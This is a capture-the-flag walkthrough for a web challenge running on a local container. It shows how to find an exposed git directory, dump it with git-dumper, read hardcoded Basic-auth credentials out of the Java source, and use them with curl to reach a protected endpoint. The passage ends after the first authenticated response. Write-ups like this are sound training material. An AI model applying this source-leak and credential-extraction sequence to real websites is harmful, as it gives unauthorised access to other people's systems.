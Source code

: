 # Solution

Initial visit to the web challenge offers Basic authentication prompt. The majority of the web application is secured and bruteforcing will not result in much.

The initial step is to fully enumerate by crawling for endpoints with wordlists. One request should completely stand out:
```
$ curl 172.17.0.2:8080/git/HEAD
ref: refs/heads/master
```

This known endpoint vector, along with several others (e.g. COMMIT\_EDITMSG, ...) should point out that there is a git repository exposed for this web service.

## Getting the source

Downloading the git repository is fairly easy, you can use `git-dumper`, but there are also other good tools such as `dvcs-ripper` available. If `git-dumper` is the chosen tool, keep in mind that all `.git` paths must be refactored to `git` in order for the script to work:
```
$ python3 git_dumper.py http://172.17.0.2:8080/.git test
[-] Testing http://172.17.0.2:8080/git/HEAD [200]
[-] Testing http://172.17.0.2:8080/git/ [200]
[-] Fetching common files
...
[-] Fetching http://172.17.0.2:8080/git/objects/8b/e0b79f560a7834bf220bbd1ea7bda64d685bd3 [200]
[-] Running git checkout .
$ cd test && ls
git
$ mv git .git
$ git checkout .
Updated 21 paths from the index
$ ls
pom.xml  src
```

## Obtaining credentials

Now when we have the source code authentication credentials are easily readable:
```
$ cd src/main/java/org/ibctf/cloud/auth
$ cat BasicAuthenticationProvider.java 
package org.ibctf.cloud.auth;

...
            if (authenticationRequest.getIdentity().equals("liberty") &&
                    authenticationRequest.getSecret().equals("Liberty@0")) {
...
```

When testing username `liberty` and password `Liberty@0` against the web service, we are responded back with an interesting path:
```
$ curl -u "liberty:Liberty@0" http://172.17.0.2:8080/ -i
HTTP/1.1 303 See Other
location: /cloud
date: Wed, 4 Jan 2023 14:29:52 GMT
connection: keep-alive
transfer-encoding: chunked

$ curl -u "liberty:Liberty@0" http://172.17.0.2:8080/cloud -i
HTTP/1.1 201 Created
date: Wed, 4 Jan 2023 14:29:56 GMT
Content-Type: application/json
```